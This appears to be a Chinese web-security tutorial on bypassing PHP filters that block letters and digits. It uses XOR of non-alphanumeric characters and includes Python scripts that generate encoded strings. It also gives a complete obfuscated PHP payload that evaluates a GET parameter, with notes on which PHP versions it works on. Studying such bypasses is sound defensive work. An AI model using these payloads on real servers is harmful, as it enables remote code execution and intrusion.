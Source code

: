 过滤了`所有英文字母和数字`，但是我们知道ASCII码中还有很多`字母数字之外的字符`，利用这些字符进行异或可以得到我们想要的字符

> PS：取ASCII表种非字母数字的其他字符，要注意有些字符可能会影响整个语句执行，所以要去掉如：反引号，单引号

### 脚本:

```python
# -*- coding: utf-8 -*-

payload = "assert"
strlist = [0, 1, 2, 3, 4, 5, 6, 7, 8, 9, 10, 11, 12, 13, 14, 15, 16, 17, 18, 19, 20, 21, 22, 23, 24, 25, 26, 27, 28, 29, 30, 31, 32, 33, 35, 36, 37, 38, 40, 41, 42, 43, 44, 45, 46, 47, 58, 59, 60, 61, 62, 63, 64, 91, 93, 94, 95, 96, 123, 124, 125, 126, 127]
#strlist是ascii表中所有非字母数字的字符十进制
str1,str2 = '',''

for char in payload:
    for i in strlist:
        for j in strlist:
            if(i ^ j == ord(char)):
                i = '%{:0>2}'.format(hex(i)[2:])
                j = '%{:0>2}'.format(hex(j)[2:])
                print("('{0}'^'{1}')".format(i,j),end=".")
                break
        else:
            continue
        break
```

一次代码执行只能得到我们想要执行语句的字符串，并不能执行语句，所以需要执行两次代码执行，构造

```php
assert($_GET[_]);
```

使用脚本对每个字母进行转换，然后拼接

```php
$_=('%01'^'%60').('%08'^'%7b').('%08'^'%7b').('%05'^'%60').('%09'^'%7b').('%08'^'%7c');$__='_'.('%07'^'%40').('%05'^'%40').('%09'^'%5d');$___=$$__;$_($___[_]);&_=phpinfo();
```

经本地测试，发现这种方法可以在`php5`以及`php7.0.9`版本种使用，因为`assert()`的问题，并不是异或不能使用
注：`PHP5`低版本有些可能因为`magic_quotes_gpc`开启的关系导致无法利用

当过滤字符的范围没有那么大，或者只是过滤关键字的时候可以使用如下脚本

```python
# -*- coding: utf-8 -*-
import string

char = string.printable
cmd = 'system'
tmp1,tmp2 = '',''
for res in cmd:
    for i in char:
        for j in char:
            if(ord(i)^ord(j) == ord(res)):
                tmp1 += i
                tmp2 += j
                break
        else:
            continue
        break
print("('{}'^'{}')".format(tmp1,tmp2))
```
